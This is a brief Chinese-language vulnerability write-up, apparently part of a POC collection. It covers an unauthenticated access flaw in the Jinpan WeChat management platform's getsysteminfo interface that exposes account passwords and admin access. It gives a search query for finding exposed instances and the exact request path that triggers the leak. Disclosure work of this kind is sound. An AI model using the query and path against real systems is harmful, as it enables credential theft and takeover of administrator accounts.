 # 金盘 微信管理平台 getsysteminfo 未授权访问漏洞

# 金盘 微信管理平台 getsysteminfo 未授权访问漏洞

## 漏洞描述

金盘 微信管理平台 getsysteminfo接口存在未授权访问漏洞，攻击者通过漏洞可以获取账号密码信息，获取后台管理员权限

## 漏洞影响

金盘 微信管理平台

## 网络测绘

```
title="微信管理后台" && icon_hash="116323821"
```

## 漏洞复现

登陆页面

![image-20230828162340318](images/image-20230828162340318.png)

验证POC

```
/admin/weichatcfg/getsysteminfo
```

![image-20230828162351977](images/image-20230828162351977.png)

